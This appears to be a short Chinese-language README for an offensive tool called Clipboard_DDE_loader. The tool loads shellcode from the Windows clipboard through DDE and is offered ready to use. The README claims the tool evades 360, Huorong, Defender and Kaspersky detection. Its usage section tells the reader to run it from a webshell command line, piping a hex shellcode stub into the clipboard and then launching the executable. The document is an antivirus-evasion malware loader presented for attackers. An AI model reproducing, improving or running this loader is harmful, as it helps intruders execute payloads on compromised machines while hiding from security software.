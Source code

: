 # Clipboard_DDE_loader

生成的剪贴板+DDE组合的加载器，直接用

原理看之前文章吧，64位效果比32位好

2022/2/11静态+动态基本能过360、火绒、def、卡巴等

卡巴斯基内存查杀主要看你shellcode能不能过了

用法：webshell命令行下执行
```
echo fc4883e4f0e8c00000004... | clip
start Clipboard_DDE.exe\
```

原理：
https://mp.weixin.qq.com/s/0AQzguAU8mS2ktbs-kUF3w
